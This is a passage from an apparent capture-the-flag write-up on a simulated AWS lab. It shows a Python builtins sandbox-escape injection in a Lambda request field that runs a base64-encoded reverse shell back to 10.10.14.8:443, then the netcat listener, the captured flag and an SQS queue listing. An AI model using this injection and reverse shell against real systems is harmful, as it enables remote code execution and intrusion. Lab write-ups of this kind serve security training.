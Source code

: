 ```
                'body': json.dumps('Internal Server Error')
            }
    except Exception as e:
        return {
            'statusCode': 500,
            'body': json.dumps(f'Invalid Tracking ID. {e}')
        }
```


We create a `json` file, use `builtins` to escape and execute `base64` data in the id field received by the function, which will send us a shell
```
cat payload.json | jq
{
  "queryStringParameters": {
    "id": "1';a = [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('echo cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTQuOCIsNDQzKSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiL2Jpbi9iYXNoIiknCg== | base64 -d | bash'); b = 'a"  
  }
}

aws --endpoint http://cloud.amzcorp.local lambda invoke --function-name tracking_api --payload fileb://payload.json output.txt | jq
{
    "StatusCode": 200
}
```

Then we can get the shell as `sbx_user1051`
```
nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.37.15 
bash-4.2$ id
uid=993(sbx_user1051) gid=990 groups=990
bash-4.2$ ls -l
-rwxr-xr-x 1 sbx_user1051 990 594 Jan 12  2022 code.py
-rwxr-xr-x 1 sbx_user1051 990  37 Jan 17  2022 flag.txt
-rwxr-xr-x 1 sbx_user1051 990 662 Sep 18 04:18 original_lambda_archive.zip  
drwxrwxrwx 1 sbx_user1051 990   0 Sep 20 00:40 __pycache__
bash-4.2$ cat flag.txt
AWS{i4m_w3ll_bu1lt_w1th0ut_bu1lt1ns}
bash-4.2$
```

# Line Up
As an administrator of the AWS service, we can list the queues under `SQS` and find the `sensor_updates` queue from which we can receive messages.
```
aws --endpoint-url http://cloud.amzcorp.local sqs list-queues | jq  
{
  "QueueUrls": [
    "http://localhost:4566/000000000000/sensor_updates"
  ]
}
```
